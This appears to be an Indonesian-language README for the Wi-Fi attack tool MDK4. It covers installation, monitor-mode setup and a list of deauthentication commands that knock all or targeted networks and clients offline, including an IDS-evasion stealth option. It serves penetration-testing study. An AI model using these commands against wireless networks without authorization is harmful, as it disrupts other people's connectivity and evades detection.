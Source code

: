 # MDK4

![MDK4](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/mdk4/img/mdk3_4.jpg)

## Instalasi

Kali Linux:

1. Menggunakan package manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install mdk4 aircrack-ng
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install pkg-config libnl-3-dev libnl-genl-3-dev libpcap-dev git
   git clone https://github.com/aircrack-ng/mdk4
   cd mdk4
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi:**

```
sudo airodump-ng [interface]
```

**2. Jalankan MDK4:**

   1. Deauth semua Wi-Fi di semua channel:

      ```
      sudo mdk4 [interface] d -c h
      ```

      Opsi `-c h` mengaktifkan channel hopping pada semua channel `b/g` (1–14). Secara default `MDK4` berpindah antar channel setiap 3 detik.
   2. Deauth semua Wi-Fi yang ada di channel tertentu:

      ```
      sudo mdk4 [interface] d -c [channel]
      ```
   3. Blacklist mode:

      ```
      sudo mdk4 [interface] d -b [file_blacklist] -c [channel]
      ```
      
      - Blacklist mode hanya melakukan deauth terhadap MAC address yang ada di file `[file_blacklist]`.
      - File `[file_blacklist]` berisi MAC address AP (BSSID) atau client yang akan di-deauth.
   4. Whitelist mode:

      ```
      sudo mdk4 [interface] d -w [file_whitelist] -c [channel]
      ```

      - Whitelist mode melakukan deauth terhadap semua MAC address, kecuali yang ada di file `[file_whitelist]`.
      - File `[file_whitelist]` berisi MAC address AP (BSSID) atau client yang akan dilindungi dari deauth.
   5. Speed control:

      ```
      sudo mdk4 [interface] d -s [speed] -c [channel]
      ```

      Speed control untuk mengatur kecepatan pengiriman paket dalam packets per second (pps). Tanpa opsi `-s`, defaultnya unlimited (tergantung kemampuan hardware).
   6. Mode stealth:

      ```
      sudo mdk4 [interface] d -c [channel] -x
      ```

      Opsi `-x` mengaktifkan IDS stealth dengan menyesuaikan sequence numbers paket untuk menghindari deteksi oleh Intrusion Detection System.
   7. Target AP berdasarkan ESSID:

      ```
      sudo mdk4 [interface] d -E [essid] -c [channel]
      ```
   8. Target AP berdasarkan BSSID:

      ```
      sudo mdk4 [interface] d -B [bssid] -c [channel]
      ```
   9. Target client spesifik:

      ```
      sudo mdk4 [interface] d -S [mac_client] -c [channel]
      ```
   10. Whitelist station spesifik:

      ```
      sudo mdk4 [interface] d -W [mac_client] -c [channel]
      ```

      Whitelist station spesifik akan melakukan deauth terhadap semua client, kecuali client `[mac_client]`.

## Video Demonstrasi

[https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z](https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z)
